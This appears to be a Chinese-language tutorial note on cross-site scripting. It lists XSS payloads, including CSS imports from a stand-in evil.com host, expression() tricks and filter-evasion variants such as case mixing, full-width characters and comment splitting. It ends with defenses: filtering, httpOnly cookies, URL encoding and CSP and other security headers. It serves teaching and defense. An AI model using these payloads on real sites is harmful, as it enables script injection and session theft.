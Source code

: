 1. 利用`<>`/`<script>`标记注射HTML/js

2. 利用HTML标签属性值执行xss，`<table background="javascript:alert(0)"></table>`

3. 空格回车Tab，在javascript引擎中，空格除了**在引号中分隔单词和强制结束语句**之外，额外的空白无论以何种方式添加都无所谓

4. 对标签属性值转码，`javascrip&#116&#58alert(0)`

5. 产生自己的事件，如图片不存在就会触发`onerror`事件

6. 利用css跨站剖析

```html
<link rel="stylesheet" href="http://www.evil.com/attack.css">
<style type='text/css'>@import url(http://www.evil.com/xss.css);</style>
<div style="background-image:url(javascript:alert('xss')">
<style>
  body {background-image:url("javascript:alert('xss')");}
  p {background-image: expression(alert("xss"));}
</style>
```

> 过滤含expression、import等敏感字符的样式表

7. 扰乱过滤规则

```html
大小写混淆，不使用引号<iMg sRC="jaVasCript:alert(0);">
全角字符<div style="{left: ｅｘｐｒｅｓｓｉｏｎ（ａｌｅｒｔ(0)）}">
/**/会被浏览器忽略 <div style="wid/****/th: expre/*XSS*/ssion(alert('xss'));">
\和\0 被浏览器忽略@\0im\port'\0ja\vasc\ript:alert("xss");
e转换成\65 <p style="xss:\65xpression(alert(/xss/))">
```

### 防范方式

1. 过滤特殊字符，或对特定字符进行编译转码，如`</script>`

2. 对重要的 cookie 设置 httpOnly，防止客户端，JavaScript通过 document.cookie 读取 cookie

> 此 HTTP 头由服务端设置

3. 进行URLEncode操作，从 URL 参数中获取值一定要进行格式检测

4. Web 安全头支持

浏览器自带的防御能力，一般是通过开启 Web 安全头生效的。具体有以下几个：

  * CSP ：W3C 的 Content Security Policy，简称 CSP，主要是用来定义页面可以加载哪些资源，减少 XSS 的发生。要配置 CSP , 需要对 CSP 的 policy 策略有了解，具体细节可以参考 CSP 是什么。
  * X-Download-Options: noopen ：默认开启，禁用 IE 下下载框 Open 按钮，防止 IE 下下载文件默认被打开 XSS。
  * X-Content-Type-Options: nosniff ：禁用 IE8 自动嗅探 mime 功能例如 text/plain 却当成 text/html 渲染，特别当本站点 server 的内容未必可信的时候。
  * X-XSS-Protection ：IE 提供的一些 XSS 检测与防范，默认开启







